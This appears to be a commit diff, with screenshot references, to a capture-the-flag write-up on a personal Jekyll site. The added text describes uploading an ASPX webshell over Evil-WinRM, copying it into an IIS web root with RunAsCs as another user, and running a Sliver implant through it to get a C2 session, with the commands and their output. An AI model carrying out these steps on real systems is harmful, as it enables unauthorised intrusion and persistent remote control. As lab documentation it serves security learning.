

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-city.md, in a window 1280 px wide and 1400 px high, scrolled down 31741 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Document webshell upload and deployment to IIS wwwroot
Added the cmd.aspx webshell upload via Evil-WinRM, the RunAsCs copy
to wwwroot as web_admin, and the execution flow through the browser
to establish the IIS service account Sliver session.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-city.md
+++ b/_ctf/hacksmarter-city.md
@@ -1020,13 +1020,33 @@ The session came back as `sam.brooks` rather than `web_admin` due to token limit
 
 ## 9.4 Webshell Deployment
 
-Since the Sliver stager through `RunAsCs` didn't yield a proper `web_admin` token, an ASPX webshell was uploaded to the IIS wwwroot directory to execute the implant directly as the IIS service account. The webshell (`shell.aspx`) was copied to `C:\inetpub\wwwroot\` using the sam.brooks Evil-WinRM session.
+Since the Sliver stager through `RunAsCs` didn't yield a proper `web_admin` token, a different approach was needed. The `web_admin` account has write access to the IIS web root, so an ASPX webshell ([cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)) was uploaded to `C:\inetpub\wwwroot\` to gain code execution as the IIS service account.
+
+Using the sam.brooks Evil-WinRM session, the webshell was uploaded and then copied to wwwroot via `RunAsCs` as `web_admin`:
+
+```
+*Evil-WinRM* PS C:\Users\sam.brooks\Documents> upload shell.aspx
+
+Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run
+command
+
+Info: Uploading /workspace/shell.aspx to C:\Users\sam.brooks\Documents\shell.aspx
+
+Info: Upload successful!
+*Evil-WinRM* PS C:\Users\sam.brooks\Documents> .\run.exe web_admin '[REDACTED]' "cmd /c copy C:\Users\sam.brooks\Documents\shell.aspx C:\inetpub\wwwroot\shell.aspx" -d city.local
+[*] Warning: User profile directory for user web_admin does not exists. Use --force-profile if you want to force the creation.
+[*] Warning: The logon for user 'web_admin' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more
+privileged token.
+        1 file(s) copied.
+```
+
+With the webshell deployed, browsing to `http://city.local/shell.aspx` provided a command execution interface running as the IIS service account. The runner binary was executed through the webshell to establish a Sliver C2 session.
 
 <div style="text-align: center;">
   <img src="/assets/images/ctf/city/webshell-runner.png" alt="ASPX webshell executing runner.exe with Sliver implant" style="max-width: 100%;" />
 </div>
 
-The webshell at `http://city.local/shell.aspx` was used to execute `c:\tools\runner.exe` with the Sliver implant URL, establishing a new C2 session running as the IIS service account.
+The webshell executed `c:\tools\runner.exe` with the Sliver implant URL, establishing a new C2 session running as the IIS service account.
 
 ```
 Shell exitedc5174231 BIG_BRICK - 10.0.29.180:50754 (DC-CC) - windows/amd64 - Fri, 06 Mar 2026 14:54:52 PST
````
